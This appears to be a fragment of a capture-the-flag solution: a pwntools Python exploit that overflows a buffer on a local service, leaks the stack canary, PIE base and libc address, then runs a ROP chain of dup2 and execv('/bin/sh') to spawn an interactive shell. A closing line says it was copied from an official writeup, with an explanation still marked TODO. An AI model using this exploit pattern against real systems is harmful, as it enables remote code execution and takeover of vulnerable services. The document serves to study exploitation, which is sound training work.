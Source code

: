 ```python
    payload = b"A" * 8 + p64(canary) + b"A" * 8 + bytes(rop)
    write(0xff, payload + b'A' * (0xff - len(payload)))
    for i in range(3):
        write(0xff, "A" * 0xff)
    write(0x04, "A" * 0x4)
    copy(0, len(payload))
    read()
    p.recv(1024 + len(payload))

for i in range(4):
    write(0xff, "A" * 0xff)
write(0x04, "A" * 0x4)

copy(1024, 0xff)
read()

p.recv(1024)

leak = u64(p.recv(8)) # Ignore stack address

canary = u64(p.recv(8))
log.success(f"Leaked canary: {hex(canary)}")

p.recv(8) # Ignore stack address

leak = u64(p.recv(8))
log.success(f"PIE leak : {hex(leak)}")
e.address = leak - 0xf54 # Calculate PIE base
p = remote("127.0.0.1", 5001) # Reconnect

rop = ROP(e)
rop.call(e.plt['write'], [4, e.got['read']])

doRop(rop)
leak = u64(p.recv(8))
log.success(f"Libc leak : {hex(leak)}")
libc.address = leak - libc.sym['read']

p = remote("127.0.0.1", 5001) # Reconnect
rop = ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.execv(binsh, 0)
doRop(rop)

p.interactive()
```

Copied and cleaned up the code from the official writeup, then ran it TODO: explain what it does

